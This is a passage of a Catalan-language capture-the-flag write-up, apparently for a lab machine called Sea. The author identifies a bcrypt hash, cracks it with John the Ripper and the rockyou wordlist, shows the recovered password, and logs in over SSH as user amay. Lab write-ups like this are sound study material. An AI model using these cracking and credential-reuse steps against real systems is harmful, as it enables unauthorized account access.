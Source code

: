 

Ara, el primer de tot és veure quin tipus de hash és, a veure si el podem "trencar". Primer de tot he anat a la web següent per veure el tipus de hash que és:

https://hashes.com/en/decrypt/hash

I veiem com ens diu el següent:

![image](https://github.com/user-attachments/assets/e07bfc9d-fdbf-48e1-a0a9-ccc9014e2b31)


Ara amb Jhon the ripper mirarem de "trencar" o crackejar el hash. El primer format que ens suggereix és el bcrypt per tant és el primer que provarem. Per començar ho provarem amb la llista més popular, la rockyou.txt. Abans però, desarem el hash a un fitxer per poder crackejar-lo:

![image](https://github.com/user-attachments/assets/b534ac5e-f285-41ae-960c-495e99cc7c9f)


``john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt``

Després de diverses proves i assaig error i força temps perdut sense èxit, veig que el hash té ``\/`` i s'han d'eliminar les ``\``.

Ara sí, tornem a executar la comanda utilitzant John the ripper i tenim èxit, al cap d'uns segons obtenim la contrasenya:

```
┌──(root㉿kaliPol)-[/home/polkali/Documents/Sea]
└─# john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mychemicalromance (?)     
1g 0:00:00:26 DONE (2024-08-21 22:04) 0.03792g/s 116.7p/s 116.7c/s 116.7C/s osiris..milena
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ara, ens queda provar la connexió per ssh i veure si és la password de l'usuari amay o geo. Primer provem amb amay i tenim èxit:

```
┌──(root㉿kaliPol)-[/home/polkali/Documents/Sea]
└─# ssh amay@10.10.11.28   
The authenticity of host '10.10.11.28 (10.10.11.28)' can't be established.
ED25519 key fingerprint is SHA256:xC5wFVdcixOCmr5pOw8Tm4AajGSMT3j5Q4wL6/ZQg7A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes`
```

Efectivament estem amb l'usuari amay:

```
amay@sea:~$ whoami
amay
amay@sea:~$ id
uid=1000(amay) gid=1000(amay) groups=1000(amay)
amay@sea:~$ `
```
